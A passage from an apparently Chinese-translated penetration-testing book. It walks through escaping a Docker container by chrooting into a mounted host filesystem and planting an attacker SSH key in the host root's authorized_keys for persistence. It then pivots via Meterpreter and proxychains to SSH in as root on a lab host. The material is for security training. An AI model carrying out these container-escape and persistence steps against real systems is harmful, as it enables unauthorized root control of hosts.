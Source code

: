有了对这个目录的读写权限，我们可以借助`chroot`快速妥协主机本身：

```
**root@33f559573304:/# chroot /host**
**# /bin/bash**
**root@33f559573304:/#**

```

如果你记得，`chroot`功能将有效文件系统根重置为任意目录。在这种情况下，任意目录恰好是主机的根文件系统。如果我们在`chroot /host`目录中再次发出`ps`命令，输出与之前略有不同：

```
**root@33f559573304:/# ps x**
 **PID TTY      STAT   TIME COMMAND**
 **1 ?        Ss     0:04 /sbin/init**
 **[...]**
 **751 ?        Ssl    1:03 /usr/bin/dockerd --raw-logs**
**[...]**
**14966 ?        R+     0:00 ps x**

```

看起来我们不在堪萨斯了！你会注意到进程列表显示`dockerd`正在运行，以及具有`PID 1`的`init`。这是 Docker 主机的进程列表。

如果我们失去与 Docker 容器的连接，我们需要持久化我们的访问权限。最简单的方法是生成一个新的 SSH 认证密钥对，并将公钥添加到`authorized_keys`文件中。

攻击者的机器`ssh-keygen`可以用来生成一个新的 RSA 密钥对：

```
**root@kali:~# ssh-keygen -t rsa -b 4096 -C "sensible@ansible"**
**Generating public/private rsa key pair.**
**[...]**
**SHA256:mh9JYngbgkVsCy35fNeAO0z0kUcjMaJ8wvpJYiONp3M sensible@ansible**
**[...]**
**root@kali:~#**

```

### 注意

记住 ROE 并清除任何遗留物，例如授权的 SSH 密钥，在任务完成后。

回到容器内部，我们可以将我们的密钥追加到 Docker 主机的`authorized_keys`文件中，通过 SSH 公钥认证为我们授予 root 访问权限：

```
**root@33f559573304:/# echo "ssh-rsa VGhlcmUgYXJlIHRoZXNlIHR3byB5b3VuZyBmaXNoIHN3aW1taW5nIGFsb25nLCBhbmQgdGhleSBoYXBwZW4gdG8gbWVldCBhbiBvbGRlciBmaXNoIHN3aW1taW5nIHRoZSBvdGhlciB3YXksIHdobyBub2RzIGF0IHRoZW0gYW5kIHNheXMsICJNb3JuaW5nLCBib3lzLCBob3cncyB0aGUgd2F0ZXI/IiBBbmQgdGhlIHR3byB5b3VuZyBmaXNoIHN3aW0gb24gZm9yIGEgYml0LCBhbmQgdGhlbiBldmVudHVhbGx5IG9uZSBvZiB0aGVtIGxvb2tzIG92ZXIgYXQgdGhlIG90aGVyIGFuZCBnb2VzLCAiV2hhdCB0aGUgaGVsbCBpcyB3YXRlcj8gIg==sensible@ansible" >> /host/root/.ssh/authorized_keys**

```

从我们的攻击盒中，我们可以通过 Meterpreter 会话进行旋转，进入容器网络，并验证到之前怀疑的`172.18.0.1`的 SSH 服务，这是根据`nmap`结果，属于主机：

```
**root@kali:~# proxychains ssh root@172.18.0.1 -i ~/.ssh/id_rsa**
**ProxyChains-3.1 (http://proxychains.sf.net)**
**|S-chain|-<>-127.0.0.1:1080-<><>-172.18.0.1:22-<><>-OK**
**Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-128-generic x86_64)**

**root@vulndocker**
**:~# id**
**u**
**id=0(root) gid=0(root) groups=0(root)**

```
